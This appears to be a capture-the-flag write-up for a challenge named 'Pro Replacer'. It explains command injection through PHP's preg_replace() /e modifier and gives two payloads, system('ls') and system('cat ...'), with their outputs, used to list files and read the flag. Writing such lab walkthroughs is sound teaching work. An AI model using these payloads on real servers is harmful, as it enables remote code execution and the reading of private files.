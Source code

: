 # Name: Pro Replacer

## Vulnerability

Use of `preg_replace()` function in PHP 5.5 that leads to command injection.

## Exploit

The server executes the `preg_replace()` function with unsanitized parameters from the user.

If you use the `/e` modifier at the end of the regex, the next of the command will be treated as PHP code.
In this way you can execute shell commands.

**Payload 1**

Needle: `m/e`

Replacement: `system('ls')`

Haystack: `m`


Output: `index.php wRtu3ND38n8RNgez`

**Payload 2**

Needle: `m/e`

Replacement: `system('cat wRtu3ND38n8RNgez')`

Haystack: `m`


Output: the flag

Exploit in `../sol/solution.sh`.
